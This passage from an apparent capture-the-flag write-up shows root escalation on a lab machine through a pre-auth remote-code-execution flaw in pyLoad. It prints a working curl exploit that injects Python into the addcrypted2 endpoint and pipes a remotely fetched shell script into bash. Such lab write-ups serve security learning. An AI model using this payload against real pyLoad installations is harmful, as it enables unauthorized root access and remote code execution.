 <figure><img src="../../.gitbook/assets/image (1025).png" alt=""><figcaption></figcaption></figure>

This software had a recent RCE vulnerability found within it.

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-PYLOADNG-3230895" %}

We can check the version within the machine to confirm that it is vulnerable:

```bash
sau@pc:/opt/app$ pip list | grep "pyload"
pyload-ng              0.5.0b3.dev30
```

We can find a PoC here:

{% embed url="https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad" %}

We can simply change the command executed to give us a root shell:

{% code overflow="wrap" %}
```bash
$ curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.14.39/shell.sh|bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (3224).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
